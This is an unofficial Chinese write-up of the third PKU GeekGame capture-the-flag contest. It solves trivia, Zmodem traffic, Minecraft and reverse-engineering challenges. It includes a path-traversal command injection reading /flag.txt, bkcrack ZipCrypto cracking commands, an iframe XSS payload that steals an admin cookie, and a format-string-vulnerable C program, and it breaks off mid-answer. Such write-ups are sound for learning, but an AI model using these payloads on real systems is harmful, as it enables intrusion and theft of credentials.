

# 第三届北京大学信息安全综合能力竞赛非官方题解暨吐槽（Ishisashi 篇）
## 第一阶段
### \[Tutorial\] 一眼盯帧
把每一帧的内容看完，记在脑子里：
```
synt{unirnavprtrrxtnzr}
```
其实就是个 Caesar 密码，注意到开头应该是 flag 立刻就出来了。

偏移量还挺对称，是 13。
```
flag{haveanicegeekgame}
```

### \[Tutorial\] 小北问答!!!!!
> 在北京大学（校级）高性能计算平台中，什么命令可以提交一个非交互式任务？

找到北京大学高性能计算平台的[使用教程](https://hpc.pku.edu.cn/_book/index.html)，在「提交作业」一章可以看到 [sbatch](https://hpc.pku.edu.cn/_book/guide/slurm/sbatch.html)。

> 根据 GPL 许可证的要求，基于 Linux 二次开发的操作系统内核必须开源。例如小米公司开源了 Redmi K60 Ultra 手机的内核。其内核版本号是？

找到小米的[内核源代码仓库](https://github.com/MiCode/Xiaomi_Kernel_OpenSource)，可以看到 Redmi K60 Ultra 对应着 [corot-s-oss](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss)。观察 [MakeFile](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/blob/corot-t-oss/Makefile) 的开头知为 5.15.78。

> 每款苹果产品都有一个内部的识别名称（Identifier），例如初代 iPhone 是 iPhone1,1。那么 Apple Watch Series 8（蜂窝版本，41mm 尺寸）是什么？

上网乱搜一通 iPhone1,1 和 Identifier 发现个[列表](https://gist.github.com/adamawolf/3048717)。
```
Watch6,16 : Apple Watch Series 8 41mm case (GPS+Cellular)
```

> 本届 PKU GeekGame 的比赛平台会禁止选手昵称中包含某些特殊字符。截止到 2023 年 10 月 1 日，共禁止了多少个字符？

PKU GeekGame 比赛网页的末尾给出了[源代码仓库](https://github.com/PKU-GeekGame/guiding-star)。在[后端仓库](https://github.com/PKU-GeekGame/gs-backend)搜 nickname allow 字样得 [user_profile_store.py](https://github.com/PKU-GeekGame/gs-backend/blob/master/src/store/user_profile_store.py)。
```Python
    @classmethod
    def _deep_val_nickname(cls, name: str) -> Optional[str]:
        all_whitespace = True
        for c in name:
            if c in cls.DISALLOWED_CHARS:
                return f'昵称中不能包含字符 {hex(ord(c))}'
            if c not in cls.WHITESPACE_CHARS:
                all_whitespace = False

        if all_whitespace:
            return f'昵称不能全为空格'

        return None
```
所以想个办法输出 `DISALLOWED_CHARS` 的长度罢。
```Python
from typing import Set
from unicategories import categories

def unicode_chars(*cats: str) -> Set[str]:
    ret = set()
    for cat in cats:
        ret |= set(categories[cat].characters())
    return ret

# https://unicode.org/reports/tr51/proposed.html
EMOJI_CHARS = (
    {chr(0x200d)}  # zwj
    | {chr(0x200b)}  # zwsp, to break emoji componenets into independent chars
    | {chr(0x20e3)} # keycap
    | {chr(c) for c in range(0xfe00, 0xfe0f+1)} # variation selector
    | {chr(c) for c in range(0xe0020, 0xe007f+1)} # tag
    | {chr(c) for c in range(0x1f1e6, 0x1f1ff+1)} # regional indicator
)

# https://www.compart.com/en/unicode/category
DISALLOWED_CHARS = (
    unicode_chars('Cc', 'Cf', 'Cs', 'Mc', 'Me', 'Mn', 'Zl', 'Zp') # control and modifier chars
    | {chr(c) for c in range(0x12423, 0x12431+1)} # too long
    | {chr(0x0d78)} # too long
) - EMOJI_CHARS

print(len(DISALLOWED_CHARS))
```
满怀欣喜地提交上去，一看——怎么不对呢？

后来放出了提示：
> （提示：本题答案与 Python 版本有关，以平台实际运行情况为准）

我 Python 3.12 3.11 3.10 3.9 试了个遍，到 3.8 终于过了。

……我服了爸爸。

这「2023 年 10 月 1 日」简直是误导信息啊——不会罢不会罢不会有人 3202 年还在用 Python 3.8 罢（

> 在 2011 年 1 月，Bilibili 游戏区下共有哪些子分区？（按网站显示顺序，以半角逗号分隔）

作为旎站——哦那个时候还是逸站——老用户当然知道当时的域名是 bilibili.us 啦。所以跑去 Wayback Machine 找[当时的页面](https://web.archive.org/web/20110118084150/http://bilibili.us/video/game.html)就行。

顺带一提，我填的是「游戏视频,游戏攻略·解说,Mugen,Flash游戏」，这是因为页面下方写着「Flash游戏」；但赛方最初的判定用答案是「游戏视频,游戏攻略·解说,Mugen,flash游戏」，这是因为页面上方写着「flash游戏」；后面赛方认定 Flash 大写也属正确答案。

> [这个照片](https://prob18.geekgame.pku.edu.cn/static/osint-challenge.jpg)中出现了一个大型建筑物，它的官方网站的域名是什么？（照片中部分信息已被有意遮挡，请注意检查答案格式）

我其实是把建筑物的片段丢去 Google 识图找到的。


一看建筑的棱角特征都很符合，所以答案就是卢森堡音乐厅的官网域名 philharmonie.lu。

#### Omake：提交实况


### \[Misc\] Z 公司的服务器
上网搜寻终端出现的神秘乱码 B00000000000000 发现是 Zmodem 协议，结合题名「Z 公司」看出似乎是正确的方向。

SecureCRT，启动！


顺利接收到档案 flag.txt，内容为：
```
flag{anc1ent_tr4nsf3R_pr0tOcoi_15_57111_In_U5e_t0d4y}\n
```
至于 Flag 2，不妨试试用 Tcpreplay 重现数据包。

只是 Tcpreplay 还是不太支援 Windows，所以我用了 [pplay](https://github.com/astibal/pplay)：
```PowerShell
python .\pplay.py --pcap .\prob05.pcapng --server 127.0.0.2:9999 --connection 192.168.16.1:63752 --auto 0.114514
```


接收得到 flag.jpg，内容为 Flag 2：


```
flag{traFf1c_aNa1y51s_4_ZMODEM}
```

说起来也很奇怪，我当时做的时候好几次拿到的是残缺的图片——接收进程在 53% 的时候就中断了，只有 8 KiB：


最后还是连蒙带猜把残缺的内容猜出来的。

回想起来，当时用的 SecureCRT 原神版本是 8.7.1，于是重新装上了 8.7.1：


……被 SecureCRT 8.7.1 汉化绿色版免费下载气晕——这下宇宙射线了（

### \[Misc\] 猫咪状态监视器
vi 一看 /usr/sbin/service 发现就是没做甚么过滤的脚本，所以整个活：
```Bash
STATUS
../../bin/bash -c ls
```
「正常显示 ls 了啊嗯」
```Bash
STATUS
../../bin/cat /flag.txt
```
——我一开始以为档案名是 flag1.txt 结果死活读不出，调试了好久才发现是自己犯蠢了。

### \[Misc\] 基本功
#### 简单的 Flag
对应的档案是 challenge_1.zip。用 7-Zip 打开发现是 ZipCrypto Store——它都没压缩！

所以就可以用 [bkcrack](https://github.com/kimci86/bkcrack) 尝试破解。

我透过 Google 搜寻「chromedriver_linux64.zip 5845152」，找到了当中 chromedriver_linux64.zip 的[来源](https://chromedriver.storage.googleapis.com/89.0.4389.23/chromedriver_linux64.zip)，这样就得到了一个档案的明文。
```PowerShell
.\bkcrack.exe -C .\challenge_1.zip -c chromedriver_linux64.zip -p .\chromedriver_linux64.zip
```
```
[12:13:05] Keys
d60e85c2 da791f96 cbf42e57
```
好好好好好！
```PowerShell
.\bkcrack.exe -C .\challenge_1.zip -c flag1.txt -k d60e85c2 da791f96 cbf42e57 -d .\flag1.txt
```

#### 冷酷的 Flag
注意到 challenge_2.zip 中出现了 flag2.pcapng。

当然我知道 PcapNg 应该有 4D 3C 2B 1A 01 00 00 00 FF FF FF FF FF FF FF FF 这段，但是就在这里卡了很久。

其实输入的明文不在档案开头的话，要用 `-o` 指定偏移量才能解出来。
```PowerShell
.\bkcrack.exe -C .\challenge_2.zip -c flag2.pcapng -p .\pcapng-header -o 8
```
```
[16:57:37] Keys
0c14e9c4 fdc94e6f 133ba92b
```
``` PowerShell
.\bkcrack.exe -C .\challenge_2.zip -c flag2.pcapng -k 0c14e9c4 fdc94e6f 133ba92b -d .\flag2.pcapng
```
打开一看：
```
AMD Ryzen 7 6800H with Radeon Graphics          (with SSE4.2)
64-bit Windows 10 (22H2), build 19045
```
……怎么这么巧，我这边的环境是：
```
AMD Ryzen 7 4800U with Radeon Graphics (with SSE4.2)
64-bit Windows 10 (22H2), build 19045
```
同款 Windows 是罢（

### \[Misc\] 麦恩·库拉夫特
（相关过程见录像 javaw 2023-10-21 01-03-17-387.mp4）

瑞典原神，启动！

顺着火把走啊走，一直走到一片水域。打开下水道盖下潜，一直顺着火把找到一个告示牌，就得到了 Flag 1。

既然知道是告示牌了，那就……

[nbt-scrapper](https://github.com/Megageorgio/nbt-scrapper)，启动！
```
Sign at x:3279, y:-33, z:-1895:
flag{pAR3inG
_ANvI1_iS
eAaasY2}
```
好好好好好，`/tp 3279 -33 -1895` 到那里发现四周都被堵住了。
```
Book "说明" by Mivik
(content hash = E3D9F66BE4D5C4C7D56DE59793835B678EA0E6993DB57D998E1A4B9237687F72)
Found 1x minecraft:written_book in slot None of block entity minecraft:lectern at x:575, y:93, z:-111
```
嗯？这个有点东西。

其实我一开始把 93 的正负搞反了，以至于掉出了世界（

### \[Web\] Emoji Wordle
#### Level 1
「硬碰硬啊嗯」
```JavaScript
'use strict';

const fetch = (...args) => import('node-fetch').then(({ default: fetch }) => fetch(...args));
const fs = require('fs');

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));

const main = async () => {
    let guessed = [
        ['🐙👚🐮👷💅👷👛🐸🐨🐺👄🐔👶👱🐷💊🐾👑🐠👆👓👝👄👤👺💇🐩👜🐾👀🐧👃🐾🐽👈🐟🐐💁👋🐥🐮👘👇🐽💁🐴👹👼👎👃👰👃💆👲👙👷💃💏🐴🐺👣🐖💆👯', '🟥🟥🟥🟥🟨🟥🟨🟥🟥🟥🟨🟥🟨🟨🟥🟨🟥🟥🟥🟨🟨🟨🟨🟨🟨🟥🟥🟨🟥🟥🟥🟨🟥🟥🟨🟥🟥🟨🟥🟥🟥🟨🟨🟥🟨🟥🟥🟨🟥🟨🟥🟨🟨🟨🟨🟥🟨🟥🟥🟥🟥🟥🟨🟥'],
        ['🐥👝💏👊👩🐿👢💀🐞🐚👏🐱🐿🐝👇🐟🐤🐷👥👺💁💆🐝👦👜🐦🐐👿💉🐾🐜👵👟🐸👆💏👵💊👢👪👒🐺👠🐑🐮🐷👧🐔🐠🐯👝💆🐴🐔🐺🐽👝👰👇👞👤🐙👦👩', '🟥🟨🟥🟥🟨🟥🟨🟥🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟨🟨🟥🟨🟨🟥🟥🟨🟥🟥🟥🟨🟥🟥🟨🟥🟨🟨🟨🟥🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟨🟨🟥🟥🟥🟥🟨🟥🟨🟨🟨🟥🟨🟨'],
        ['👳💈🐘👞🐖🐔🐦🐜👝👎🐹🐗👂💋👂💅👤👖🐑🐦🐚💍👯💈🐻🐑🐴🐷👩👸👨🐻👅🐘👌👽🐣💃🐧👢🐺👑🐙👋💊👴👓👒👫👿👔👀💌🐬🐜🐫👙🐴👶👲👶👿🐐👛', '🟨🟨🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟨🟥🟨🟨🟨🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟨🟥🟥🟨🟥🟥🟨🟥🟩🟥🟨🟥🟥🟥🟥🟨🟨🟨🟥🟥🟨🟨🟥🟥🟥🟥🟥🟨🟥🟨🟨🟨🟨🟥🟨'],
        ['🐝👔👹🐺🐨👠💎👑🐺👜👦🐐🐻👃👜🐽🐭👱👅👷🐪👊🐖👾💊👄👅🐕👖👗💋🐣🐧🐥👣👐💁🐢🐻👞🐒👀👮💂👐👁👨💊👗👚🐾👉👈👥🐥👋👃👂💍👢👶👿👌👐', '🟥🟨🟥🟥🟥🟥🟥🟥🟥🟨🟨🟥🟥🟨🟨🟥🟥🟨🟨🟥🟥🟥🟥🟥🟨🟨🟨🟥🟥🟨🟥🟥🟥🟥🟥🟥🟨🟥🟥🟨🟥🟥🟥🟨🟥🟩🟥🟨🟨🟥🟥🟨🟨🟥🟥🟥🟨🟨🟥🟨🟨🟨🟥🟥'],
        ['🐲👇👽👳🐢👕💃💍🐠🐾👵👰💅👎🐙👺👄🐡👓🐼👞🐽👎👐👚🐙👼👄🐚👸👸🐰👆👘👢👣👂👭🐖🐮🐱👓👓🐤👛🐖💎🐬👂🐝🐦👞🐥👎👞🐤👳👎👄👈👏💃👻👃', '🟥🟨🟨🟨🟥🟥🟨🟥🟥🟥🟨🟥🟨🟥🟥🟨🟨🟥🟨🟥🟨🟥🟥🟥🟥🟥🟨🟨🟥🟨🟨🟥🟨🟨🟨🟥🟨🟥🟥🟥🟥🟨🟨🟥🟨🟥🟥🟥🟨🟥🟥🟨🟥🟥🟨🟥🟨🟥🟨🟨🟥🟨🟥🟨'],
        ['🐑👚👠👅🐺💌💄🐟🐟🐾👏🐯🐙🐣👮🐶👔🐓💊👐👣👱👛💅🐘🐚👌🐿🐩👈👐💂💃💉🐯👽💂👸🐜🐰👓👾👝👀👾👟🐿👾👤👸🐷👌👪👞👓👭🐹👅🐜🐓💊👳💎👓', '🟥🟥🟥🟨🟥🟥🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟩🟥🟨🟥🟥🟨🟨🟨🟥🟥🟥🟥🟥🟨🟥🟨🟨🟥🟥🟨🟨🟨🟥🟥🟨🟥🟨🟥🟥🟥🟥🟥🟨🟨🟥🟥🟥🟨🟨🟥🟥🟨🟥🟥🟨🟨🟥🟨'],
        ['🐘🐪👈🐕👞💀🐴🐯👵🐢👝🐽👢🐷👖🐭👳🐶💄🐫👦🐟👟👃👷👪💊👏👁💊🐔👀👟🐶🐥🐹🐞👰🐰👭🐠💉👯👰💆🐣🐷👮👧👈👀💋👇🐫👵👙🐸👺🐐🐩🐤💋👘👃', '🟥🟥🟨🟥🟨🟥🟥🟥🟨🟥🟨🟥🟨🟥🟥🟥🟨🟥🟨🟥🟨🟥🟥🟨🟥🟥🟨🟥🟨🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟨🟨🟥🟥🟨🟥🟨🟨🟥🟨🟥🟥🟥🟥🟨🟨'],
        ['👁👱👆👘🐧👶👇🐬👜👍🐐👗💄💇🐺🐥🐭🐦🐺🐙🐶👉💃👩👎👮🐪👌🐟👸💉👀👸👒👕👅🐲💉👚👭🐡🐿🐑🐼👬🐙👣💇🐴🐡👐🐘💂👲👍👣👂👵🐺🐼🐖💃👮👽', '🟨🟨🟨🟨🟥🟨🟨🟥🟨🟥🟥🟨🟨🟥🟥🟥🟥🟥🟥🟥🟥🟨🟩🟨🟥🟥🟥🟥🟥🟨🟥🟥🟨🟥🟥🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟨🟥🟥🟨🟨🟥🟥🟥🟨🟥🟨'],
        ['🐚👧👅🐺👸💈👮🐴👀👜🐘🐧🐿🐩🐰👟👱🐼🐔🐐🐓👵🐩💃👓🐪🐽🐪💂👃👂👽👫👾👻🐐🐪🐴🐠🐨💅🐒💋💅🐥👁🐙👪🐸👙🐘🐖👾💏👙🐺👹👬👊👴👔👌👏💃', '🟥🟨🟨🟥🟨🟨🟥🟥🟥🟨🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟥🟨🟨🟥🟥🟥🟨🟨🟨🟩🟥🟥🟥🟥🟥🟥🟥🟥🟨🟥🟥🟩🟥🟩🟥🟥🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟨🟥🟥🟨'],
        ['👉🐜👲🐧👫👿🐸🐧👠👸💍🐼👩👹👷👯👰👵🐣🐝💇👥🐢👥👵🐖👜🐮🐹👕👬🐣🐕🐞💎👾👜👢🐹💏👻👁👧🐠💂👋👷👃👐👂🐿🐥👌🐛👍👓🐦🐓🐧👳👣🐗👘👇', '🟨🟥🟨🟥🟥🟨🟥🟥🟥🟨🟥🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟥🟥🟥🟨🟥🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟨🟥🟥🟥🟨🟨🟥🟨🟥🟥🟨🟥🟨🟥🟥🟥🟥🟥🟨🟥🟥🟥🟨🟥🟥🟨🟨'],
        ['👒🐙🐝🐸💃👦🐯👙🐓👧🐲🐔👋💂👘👵🐢🐽👉🐘👵🐲👪💉🐻🐠👂👹👟🐹🐬👿🐓🐬💇👽🐨👝🐾👯🐿👸👎🐽👱👉👮💈👼👭👔🐴👢🐻💎🐭👷🐾💄👏🐔🐑👜🐬', '🟥🟥🟥🟥🟨🟨🟥🟨🟥🟨🟥🟥🟥🟨🟨🟨🟥🟥🟨🟥🟨🟥🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟨🟥🟨🟥🟥🟥🟨🟥🟥🟨🟨🟥🟨🟨🟥🟨🟥🟨🟥🟥🟥🟥🟥🟨🟥🟥🟥🟨🟥'],
        ['👵👸💄👢💁💊👜👺💂💊👿👅👿👳👝👿👔👩💅💊👿👙💃👧👔👝💁👈👈💄👳👽👸💅👵👴👛💃👂👆👛👴💊💅👦👁👁👩💊💈👩👈👵👳👢👦💆👇👄👙👵👓👳👛', '🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨'],
        ['👜👽💂👵👔💊💄👝👃👵👅💆👓👄👘👜👔👃👼👛👜👝💃👤👵👸👂👂👼👝👜👽💆💆👗👽👸💃💊👶👃💅👄💅👞👁👇💄💂👱👺💄👝👦💄👢👼👓👆👉👴👂👘👤', '🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟩🟨🟨🟨🟩🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨'],
        ['👓👞👼👔💊👱👳👆💂👈👴💆👄👩👙💆👔👦👿💊👅👗💃👢👞👃👔👇👉👁👧👽👗👸👦👁👔💃👘👶👦👁👝💅💄👁👸👜👜👆👵💈👄👔👅👄👦👇💄👲💆👜💊👢', '🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟩🟨🟨🟩🟨🟩🟨🟨🟨🟩🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨'],
        ['💂👊👣👡👨💀🐡🐦👺👾🐤👀👣👵👬🐴👪👰🐬👣🐼👟🐥👇💇👖💋👾👷🐶👌🐓🐹👠🐵👫💂👁👞👛👕👍🐾💍👃🐣💋👗🐳👍👐👉👤👕👅👋👭🐔🐪🐧👼👹👯🐢', '🟨🟥🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟥🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟨🟨🟨🟥🟥🟥🟥🟨🟥🟥🟨🟥🟥🟥🟨🟨🟥🟨🟥🟥🟥🟥🟥🟨🟥🟥🟥'],
        ['👃👡👼👅👸👩👿👞👜💅👿💆💄💊💆👤👔👞👇👳👳👛💃👆👡👤👙👢👴👂👡👽👩👈👦👺👤💃👆👶👝💃👃💅👴👁👶👧👆💆👅💁👗👄👼👦💆👁👸👆👛💊👸👩', '🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟩🟨🟨🟩🟨🟩🟨🟨🟨🟩🟨🟩🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨🟨'],
        ['👢👺👼👛👇💁👓👗💅👵👼💆👘👗👗👝👔👈👂👆💃💂💃👺👶👸👛👔👓💆👄👽👈👙👦👿💁💃👓👶👱💈👸💅👤👁👵👶👆👸💁👝💁👩💆👘👦👜👿👉👺👅👜👼', '🟨🟨🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟩🟨🟨🟨🟨🟨🟩🟨🟩🟨🟨🟩🟨🟨🟩🟨🟩🟨🟩🟨🟩🟨🟩🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨'],
        ['💅💅👼💂💊👳👄👤👛👡👘💆👱👆👝👘👔💊👦👞👜👴💃👺👇👡👙👓👧💆👶👽👙👧👦👶💆💃👝👶💈💈👧💅👲👁👝👜👆👄👙👙👢👃💆👅👸👂👱👓👺👴👽👢', '🟨🟩🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟩🟨🟨🟨🟨🟨🟩🟨🟩🟨🟨🟩🟨🟨🟩🟨🟩🟨🟩🟨🟩🟨🟩🟨🟨🟩🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨'],
        ['👁💅👼💅👉👧💆👃👲👙👡💆👞💅👼👴👔👸👺👔👆👆💃👺👈👳👛💃👇💆💈👽👛💄👦👧👃💃👂👶👢💈👺💅👓👁👔👩👆👄💂👙👢👃💆👄👳👅👘👅👺👧👞👂', '🟨🟩🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟩🟨🟨🟨🟨🟨🟩🟨🟩🟩🟨🟩🟨🟨🟩🟨🟩🟨🟩🟨🟩🟨🟩🟨🟨🟩🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨'],
        ['👺💅👼👙👗👘👦👱💄👔👛💆👝👳👉👓👔👵👓👡💅👗💃👺👩👶👧👡💊💆👓👽👛👽👦👢👞💃💄👶💂💈👈💅👇👁👝👩👆👄👘👗👔👲💆👼👞👄👢👓👺💅👽👃', '🟨🟩🟩🟨🟨🟨🟨🟨🟨🟨🟨🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟩🟨🟨🟨🟨🟨🟩🟨🟩🟩🟨🟩🟨🟨🟩🟨🟩🟨🟩🟩🟩🟨🟩🟨🟨🟩🟩🟨🟨🟨🟨🟩🟨🟨🟨🟨🟨🟩🟨🟨🟨'],
        ['👀💆👉🐸👅👖👓👶🐔💆👤👨💊👐🐴💋💉👓👛👍🐦🐒👑👏👠🐷🐠🐚👊🐻🐗🐒👈🐺👜🐭👝🐞👕💃🐪👟🐦💈👈🐽🐜🐣🐥🐥👓👽🐕👝👑💅🐟💍🐣👁🐕👨🐵👩', '🟥🟨🟨🟥🟨🟥🟨🟨🟥🟨🟨🟥🟨🟥🟥🟥🟥🟨🟨🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟥🟨🟥🟨🟥🟨🟥🟥🟨🟥🟥🟥🟨🟨🟥🟥🟥🟥🟥🟨🟨🟥🟨🟥🟨🟥🟥🟥🟨🟥🟥🟥🟨']
    ];

    let done = false;

    while (!done) {
        let possible = new Set();
        let known = [];
        known.length = 64;

        for (let [ans, hint] of guessed) {
            ans = [...ans];
            hint = [...hint];

            let offset = 0;
            while (offset < 64) {
                if (hint[offset] !== '🟥') {
                    possible.add(ans[offset]);
                };
                if (hint[offset] === '🟩') {
                    known[offset] = ans[offset];
                };
                offset += 1;
            };
        };

        possible = [...possible];

        done = true;
        let str = '';
        for (let chr of known) {
            str += chr ? chr : (done = false) || possible[Math.floor(Math.random() * possible.length)];
        };
        console.log(str);

        let get = await fetch(new URL(`https://prob14.geekgame.pku.edu.cn/level1?guess=${str}`));
        let getBuf = await get.arrayBuffer();
        let html = Buffer.from(getBuf).toString();
        guessed.push([str, html.match(/results.push\("(.*)"\)/)[1]]);

        await sleep(500);
    };

    fs.writeFileSync('Wordle Level 1.json', Buffer.from(JSON.stringify(guessed)));
};

main();
```

### \[Web\] 第三新XSS
#### 巡猎
还是 iframe 出奇迹啊嗯（
```HTML
<iframe id="ifr" src="../admin/"></iframe>
<script>document.getElementById('ifr').onload = () => document.title = document.getElementById('ifr').contentWindow.document.cookie;</script>
```

### \[Binary\] 汉化绿色版免费下载
#### 普通下载
用 [GARbro](https://github.com/morkt/GARbro) 解开 data.xp3 就看到代码了。

#### 高速下载
用 [KirikiriDescrambler](https://github.com/arcusmaximus/KirikiriTools) 可以解开存档，知道 Hash 是 $7748521$。

以 JS 表示生成 Hash 的算法的话，大概是这个样子：
```JavaScript
'use strict';

let text = 'flag{';
let hash = 1337n;

const hashOffset = { A: 11n, E: 22n, I: 33n, O: 44n, U: 55n, '}': 66n };

// IDK
let content = 'AEIOU}';

for (let chr of content) {
    hash *= 13337n;
    hash += hashOffset[chr];
    hash %= 19260817n;
};

// The hash should be 7748521n
console.log(hash);
```
你们膜的数不要太暴力了（恼）

至少 $13337$ 和 $19260817$ 都是质数。

但是从每一步循环的式子 $(13337x+\mathrm{offset})\operatorname{mod}19260817$ 似乎能知道甚么……（

这实际上就是在有限域 $\mathrm{GF}(19260817)$ 作运算。

如果 flag{ 后有 $n$ 位的话，整个和大概就可以写成多项式 $\displaystyle\sum_{i=0}^{n}13337^{n-i}\mathrm{offset}_i$ 罢。当中 $\mathrm{offset}_0$ 就是 $1337$，$\mathrm{offset}_n$ 自然是 $66$——因为 flag 以 } 结束。

$13337$ 在 $\mathrm{GF}(19260817)$ 中的乘法逆元是 $13337^{19260817-2}\operatorname{mod}19260817$，也即 $5692895$。

于是很快就能从 $7748521$ 和 $66$ 逆推出 $17633825$。

可是接下来该怎么办呢？毕竟每一位还有 AEIOU 五种可能。

后来我注意到 datasu.ksd 实际上有一些 trail_round1_sel_a 的字眼，看上去似乎是 round1 中触发 sel_a 的次数。

节选一下。
```
 "trail_round1_sel_i" => int 1,
 "trail_round1_round_1" => int 1,
 "trail_round1_sel_fin" => int 1,
 "trail_round1_sel_a" => int 6,
 "trail_round1_sel_end" => int 17,
 "trail_round1_sel_e" => int 3,
 "trail_round1_sel_o" => int 6,
```
注意到 trail_round1_round_1 为 $1$，说明整个存档就玩过这么一次。另外 $1+1+6+3+6=17$，似乎增加了猜想的可信程度。

就是说抛开 } 还有 $16$ 位；其中 A 有 $6$ 个，E 有 $3$ 个，I 有 $1$ 个，O 有 $6$ 个……嗯？没有 U！

这样对 $17633825$ 而言 $\mathrm{offset}$ 的取值集合实际上就是 $\\{11, 22, 33, 44\\}$，$55$ 已经排除掉了；而且对应的多项式的形式也已经确定了，就是，$\displaystyle13337^{16}\times1337+\sum_{i=1}^{16}13337^{16-i}\mathrm{offset}_i$。

移项就得到了 $\mathrm{GF}(19260817)$ 下的方程 $\displaystyle\sum_{i=1}^{16}13337^{16-i}\mathrm{offset}_i=7965841$。

AEIO 的可能排列无非是 $\dfrac{16!}{6!3!1!6!}=6726720$ 个，也不算多，干脆穷举算了。

「不多不多，多乎哉？不多也！」

——还不到 $2^{23}$ 嘛（后仰）

顺便一提，如果用 numpy 算点乘的话一定要小心溢出——我一开始中坑算出两个结果，一看乘积都变成负数了（

↑当然两个都是错的。

跑出来一看：
```
[44, 44, 11, 11, 11, 11, 22, 11, 22, 33, 22, 11, 44, 44, 44, 44]
```
对应的就是 flag{OOAAAAEAEIEAOOOO} 了。

### \[Binary\] 初学 C 语言
我丢去问 ChatGPT：
```
现在有这样的 C 语言代码：
#include<stdio.h>
#include<string.h>
#include<unistd.h>

void test()
{
    char buf[1024];
    char secrets[64]="a_very_secret_string";
    int secreti1=114514,secreti2=1919810;
    char publics[64]="a_public_string";
    int publici=0xdeadbeef;
    char flag1[64]="a_flag";
    FILE* fp=fopen("flag_f503be2d","r");
    fgets(flag1,63,fp);
    fclose(fp);
    //get flag2 in another file
    while(1)
    {
        printf("Please input your instruction:\n");
        fgets(buf,1023,stdin);
        if(memcmp(buf,"exit",4)==0)
            break;
        int t=printf(buf,publics,publici);
        if(t>1024)
        {
            printf("Too long!\n");
            break;
        }
        printf("\n");
    }
}

int main()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    test();
    return 0;
}

//gcc pwn.c -o pwn -static-pie
你能找出其中的漏洞吗？
```
它回答我说：
```
该 C 语言代码存在格式化字符串攻击 (Format String Attack) 的漏洞。
在这段代码中，printf 函数直接使用了用户输入的 buf，这在 C 语言中是非常危险的，因为 printf 函数在执行时会解析其参数中的格式化字符串。
也就是说，如果用户在输入中加入 "%s"，"%d" 等格式化字符串，那么 printf 函数会尝试从调用栈上获取对应的参数。如果用户输入的格式化字符串很多，就可能使得 printf 函数访问到栈上应该不能被用户访问的内存，如程序的返回地址等。
这就是典型的格式化字符串攻击，攻击者可以通过控制格式化字符串，泄露内存中的信息，或者篡改内存中的数据，从而实现远程代码执行（RCE）。
例如，攻击者可以通过发送包含 "%x" 的字符串来读取并泄露内存中的信息，或者通过发送包含 "%n" 的字符串来改写内存中的数据。
所以，一个正确的做法是，程序员应该始终使用带有固定格式字符串的 printf 函数，比如 printf("%s", buf)，而不是直接使用 printf(buf)。
```
再问：
```
能够取出变量 flag1 的数据吗？
```
回答：
```
